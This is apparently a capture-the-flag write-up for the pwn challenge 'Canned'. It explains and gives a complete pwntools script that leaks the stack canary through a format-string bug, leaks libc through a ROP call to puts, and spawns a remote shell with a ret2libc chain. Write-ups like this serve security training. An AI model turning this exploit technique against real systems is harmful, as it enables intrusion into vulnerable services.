 # Canned
**Category**: Pwn

**The task**:

![img0](./images/task.png)

This challenge required us to overcome binary protections such as NX, Stack canaries and ASLR.


# Analysis

We were given a binary(``./canned``) and a remote host(which, runs this binary). 

What are we working with:
* The binary has a format string vulnerabillity
* It also has a buffer overflow
* The binary has ``PIE`` disabled, meaning that the GOT/PLT has a fixed address.


Obstacles:
* The binary has NX protection enabled
* Stack canary protection is also enabled(libc's ``FORTIFY`` stuff) which prevents ``RIP`` takeover via the stack.
* The address of libc is randomized(ASLR) so we cannot know where to jump even if we manage to leak the stack canary and takeover ``RIP``.
* We don't know the version of libc on the target server

# Solution

* To overcome the stack canary and skip the libc's `` ** stack smashing detected **`` error, we can use the format string vulnerabillity and leak the stack cookie.
* To overcome NX: we'll perform a ret2libc attack
* To overcome libc's ASLR: we'll leak the GOT entry of ``puts@plt`` using a ROP gadget.
  * After getting a leaked libc ``puts`` address, we can determine the libc version which the server is running using tools like [_libc-database_](https://libc.rip/)
  * When we get the libc version, we can download a copy of the ``libc.so`` file and analyze its symbols&offsets to calculate the libc base address on the target server
  * After getting the base address, it is fairly easy to calculate the address of ``system``.
* At the end, we'll make another ``ret`` to ``main`` in order to restart the program. 
* Landing again on ``main``, we'll exploit the buffer overflow one more time, but this time with another ROP chain to perform a _ret2libc_ attack with our known values(address of libc's ``system`` + leaked canary) to pop a shell.



```py
from pwn import * 

context.log_level = 'CRITICAL'

# step 0 - define vars
canned = ELF('./canned')
rop    = ROP(canned)

p = remote('35.238.225.156', 1007)
pop_rdi      = rop.find_gadget(['pop rdi', 'ret'])[0]
align_stck   = rop.find_gadget(['ret'])[0]
get_canary   = '%15$p'  # 15th element on the stack is the stack cookie
buffer_size  = 0x20 - 8 # minus 8 due to the stack cookie
main         = p64(canned.symbols['main'])


# step 1 - get canary 
p.recvuntil('Say something please')
p.sendline(get_canary)
p.recvline() # newline
leak = p.recvline()[:-1]
canary = p64(int(leak.decode() , 16))
print('canary leak: ', leak.decode())

p.recvuntil('try something else maybe')

# step 2 - leak libc addr, calculate base & return again to main
rop_payload  = b'A'*buffer_size 
rop_payload += canary
rop_payload += b'B'*8
rop_payload += p64(pop_rdi)
rop_payload += p64(canned.got['puts'])
rop_payload += p64(canned.plt['puts'])
rop_payload += main


p.sendline(rop_payload) # executing step 1 + 2
p.recvuntil('bye\n')
leak = p.recvline()[::-1][1:].hex()
puts_leak = int('0x' + leak, 16)
print('puts leak: ', hex(puts_leak)) # find version using libc database tools

libc = ELF('./libc6_2.27-3ubuntu1.3_amd64.so')
libc_base   = puts_leak - libc.symbols['puts']
libc_system = libc_base + libc.symbols['system']
str_bin_sh  = libc_base + 0x1b3e1a

print(
    'libc base ', hex(libc_base),
    '\nlibc syst ', hex(libc_system),
    '\nlibc binsh', hex(str_bin_sh),
)

# step 3 - back again at main: trigger overflow & jump to system
p.recvuntil('Say something please')
p.sendline('shaq-attack :D')
p.recvuntil('try something else maybe')

system_pwn  = b'A'*buffer_size 
system_pwn += canary
system_pwn += b'B'*8
system_pwn += p64(align_stck) # extra ROP sauce. Adding another ret gadget to keep the stack aligned or else libc will crash 
system_pwn += p64(pop_rdi)
system_pwn += p64(str_bin_sh)
system_pwn += p64(libc_system)

p.sendline(system_pwn) 
p.interactive()
```

aaaand

![img1](./images/flag.png)

thanks for the challenge :D 